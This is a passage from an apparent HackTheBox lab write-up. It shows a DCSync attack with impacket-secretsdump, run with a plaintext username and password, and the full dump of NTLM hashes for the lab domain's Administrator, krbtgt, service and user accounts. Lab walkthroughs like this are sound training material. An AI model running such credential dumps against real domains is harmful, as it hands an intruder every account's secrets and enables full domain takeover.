 Once we have DCSync rights, we can dump the NTLM hashes of **all** users, including **Domain Admins**

```bash
impacket-secretsdump htb.local/Dignitas:Hacker123@10.129.136.21
```

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
```